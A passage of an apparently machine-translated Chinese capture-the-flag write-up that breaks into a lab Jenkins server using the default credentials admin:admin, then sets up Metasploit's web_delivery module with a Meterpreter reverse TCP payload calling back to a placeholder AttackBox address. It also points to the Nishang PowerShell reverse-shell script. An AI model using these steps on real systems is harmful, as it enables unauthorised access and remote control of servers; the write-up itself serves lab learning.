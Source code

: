 **图 4:詹金斯登录面板**

## 剥削

我最初打算设置 Burp Suite (Community Edition)来使用各种用户名和密码组合对 Jenkins 登录面板进行暴力攻击，但是我决定尝试使用默认凭证登录。我的第一个用户名和密码组合是`admin:admin`——我可以登录到 Jenkins 面板(图 5):

![](img/d86a6203abf5a276d7729229575f71bf.png)

**图 5: Jenkins 管理面板**

登录到 Jenkins 后，我做的下一件事是寻找一些方法来利用它给我一个进入系统的命令 shell。经过一番研究，我发现了一种在目标系统上执行 shell 命令的方法( [Davis，2021](https://quick-adviser.com/how-do-i-run-a-shell-command-in-jenkins/) )，具体描述如下:

1.  在詹金斯创建一个自由风格的项目。
2.  使用“高级配置”页面可以使用自定义工作区。
3.  将路径添加到您的 shell 脚本中。
4.  在构建步骤下，选择“执行 shell”
5.  输入您的 shell 脚本的名称，然后单击 save 并执行它。

关于步骤 1， [Hamilton (2020)](https://www.guru99.com/create-builds-jenkins-freestyle-project.html) 将*自由风格项目*定义为“包含步骤和后期构建动作的可重复构建作业、脚本或管道。”我不打算“不折不扣地”遵循这些指示。相反，我打算只是将它作为一个参考，我可以用它来完成我的目标——即通过 Metasploit 的 Meterpreter 启动一个反向 shell。

**请注意**教室指导学生使用尼尚`Invoke-PowerShellTcp.ps1`脚本( [Mittal 和 Mehlmauer，n.d.](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) )来获得初始外壳。对这种方法感兴趣的，看最后的附录。

为了监听反向 Meterpreter shell，我将通过终端在 AttackBox 上启动 Metasploit:

```
**$ sudo msfconsole**[... snip ...]=[ metasploit v5.0.60-dev ]
+ — — =[ 1947 exploits — 1089 auxiliary — 333 post ]
+ — — =[ 556 payloads — 45 encoders — 10 nops ]
+ — — =[ 7 evasion ]**msf5 >**
```

然后，我将使用模块`exploit/multi/script/web_delivery`提供 Meterpreter shell，将有效负载设置为`windows/meterpreter/reverse_tcp`，设置选项，然后启动漏洞利用:

```
**msf5 >** **use exploit/multi/script/web_delivery**
**msf5 exploit(multi/script/web_delivery) > set PAYLOAD windows/meterpreter/reverse_tcp**
PAYLOAD => windows/meterpreter/reverse_tcp
**msf5 exploit(multi/script/web_delivery) >** **set SRVHOST <attackbox ip>**
SRVHOST => <attackbox ip>
**msf5 exploit(multi/script/web_delivery) >** **set LHOST <attackbox ip>**
LHOST => <attackbox ip>
**msf5 exploit(multi/script/web_delivery) > set TARGET 2**
TARGET => 2
**msf5 exploit(multi/script/web_delivery) > exploit**
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
```